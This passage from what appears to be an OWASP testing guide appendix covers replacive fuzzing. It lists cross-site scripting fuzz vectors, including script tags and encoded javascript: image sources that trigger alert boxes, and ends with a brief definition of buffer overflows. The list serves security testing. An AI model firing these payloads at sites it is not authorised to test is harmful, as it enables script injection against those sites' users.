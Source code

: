 This is a form of replacive fuzzing. In this category, the total number of requests is dependent on the number of fuzz vectors specified.


The remainder of this appendix presents a number of fuzz vector categories.


## Cross Site Scripting (XSS)

For details on XSS: [Cross-site Scripting (XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29)

```
 >"><script>alert("XSS")</script>&
 "><STYLE>@import"javascript:alert('XSS')";</STYLE>
 >"'><img%20src%3D%26%23x6a;%26%23x61;%26%23x76;%26%23x61;%26%23x73;%26%23x63;%26%23x72;%26%23x69;%26%23x70;%26%23x74;%26%23x3a;
 alert(%26quot;%26%23x20;XSS%26%23x20;Test%26%23x20;Successful%26quot;)><br>
 >%22%27><img%20src%3d%22javascript:alert(%27%20XSS%27)%22>
 '%uff1cscript%uff1ealert('XSS')%uff1c/script%uff1e'
 ">
 >"
 '';!--"<XSS>=&{()}
 <IMG SRC="javascript:alert('XSS');">
 <IMG SRC=javascript:alert('XSS')>
 <IMG SRC=JaVaScRiPt:alert('XSS')>
 <IMG SRC=JaVaScRiPt:alert(&amp;quot;XSS<WBR>&amp;quot;)>
 <IMGSRC=&amp;#106;&amp;#97;&amp;#118;&amp;#97;&amp;<WBR>#115;&amp;#99;&amp;#114;&amp;#105;&amp;#112;&amp;<WBR>#116;&amp;#58;&amp;#97;
 &amp;#108;&amp;#101;&amp;<WBR>#114;&amp;#116;&amp;#40;&amp;#39;&amp;#88;&amp;#83<WBR>;&amp;#83;&amp;#39;&amp;#41>
 <IMGSRC=&#0000106&#0000097&<WBR>#0000118&#0000097&#0000115&<WBR>#0000099&#0000114&#0000105&<WBR>#0000112&#0000116&#0000058
 &<WBR>#0000097&#0000108&#0000101&<WBR>#0000114&#0000116&#0000040&<WBR>#0000039&#0000088&#0000083&<WBR>#0000083&#0000039&#0000041><br>
 <IMGSRC=&#x6A&#x61&#x76&#x61&#x73&<WBR>#x63&#x72&#x69&#x70&#x74&#x3A&<WBR>#x61&#x6C&#x65&#x72&#x74&#x28
 &<WBR>#x27&#x58&#x53&#x53&#x27&#x29><br>
 <IMG SRC="jav&amp;#x09;ascript:alert(<WBR>'XSS');">
 <IMG SRC="jav&amp;#x0A;ascript:alert(<WBR>'XSS');">
 <IMG SRC="jav&amp;#x0D;ascript:alert(<WBR>'XSS');">
```

## Buffer Overflows and Format String Errors

### Buffer Overflows (BFO)
A buffer overflow or memory corruption attack is a programming condition which allows overflowing of valid data beyond its prelocated storage limit in memory.


For details on Buffer Overflows: [Testing for Buffer Overflow ](https://www.owasp.org/index.php/Testing_for_Buffer_Overflow_%28OWASP-DV-014%29)

